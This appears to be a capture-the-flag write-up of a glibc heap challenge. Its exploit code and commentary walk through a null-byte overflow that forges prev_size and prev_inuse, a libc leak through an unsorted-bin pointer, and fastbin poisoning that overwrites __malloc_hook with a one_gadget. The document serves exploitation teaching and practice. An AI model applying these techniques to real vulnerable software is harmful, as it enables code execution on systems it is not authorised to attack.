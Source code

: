 So let's create some chunks and we will discuss our strategie.

```python=
    alloc(0, 0xf8, "A"*0xf7)
    alloc(1, 0x68, "B"*0x67)
    alloc(2, 0xf8, "C"*0xf7)
    alloc(3, 0x10, "D"*0x9)
```
so after those allocations our heap area should look like this 

![](https://i.imgur.com/crxGieH.png)

> 2.Leak libc addres: 

the plan is going to abuse the null byte overflow by overwriting the ``prev_inuse`` bit from ``1`` to ``0`` to mark the previous chunk as a free chunk .
while we are filling the chunk until we overwrite the prev in use bit we also will overwrite the ``prev_size`` field so we can get a chunk where we can have control over.
```python=
    free(0)
    edit(1, b"A"*0x60 + p64(0x170))
    free(2)
    alloc(0, 0xf8, "E"*0xf7)
    show(1)
    p.recvuntil("Content: ")
    libc_base = u64(p.recv(6).ljust(8,b"\x00")) - (libc.sym.main_arena + 88)
    log.success("Libc base @  " + hex(libc_base))
```
So basically we are freeing the first chunk then we are editing from chunk 1 and filling it until we reach the ``prev_size`` field. overwriting ``prev_size`` field with the size of first chunk and second chunk combined (idx0 + idx1 which is 0x100 + 0x70 = 0x170) and then overwriting the ``prev_inuse`` bit of the third chunk.
now we created a layout where our next free will return an unsorted bin chunk. by freeing the third chunk which holds the idx=2 we have an usorted bin chunk that contains a libc adresse (``main_arena + 88``)
now we need to push those adresses to a chunk that we can read from ( idx = 1 for our case)
Re-allocating idx 0 chunk with the same chunk size will push the libc addresses to idx 1 chunk now we have a libc addresse in a chunk we can read from we just use show function and adjust the adresses.

>3.Compute necessary addressess:

```python=
    hook = libc_base + (libc.sym["__malloc_hook"] - 0x23)
    one = libc_base + 0xf1247
```
we are going to overwrite the __malloc_hook we a one_gadget which can be obtained from [here](https://github.com/david942j/one_gadget).

>4.Overwrite __malloc_hook with one_gadget:

```python=
    alloc(4,0x68, "A"*0x10)
    free(1)
    payload = b"A" * 0x13 + p64(one) * 2
    edit(4, p64(hook))
    alloc(5, 0x68, "")
    alloc(6, 0x68, payload)
    p.sendline("1")
    p.sendline("8")
    p.sendline("52")
```
So we just put the adress of the computed __malloc_hook in the Forward pointer of a singly linked list which is fastbins in our case (idx = 1).
Re-allocating again with the same size will return the same chunk we used previously and puts the address of __malloc_hook - 0x23 as the next chunk that will be server for next allocation if it meets the needed requirements.
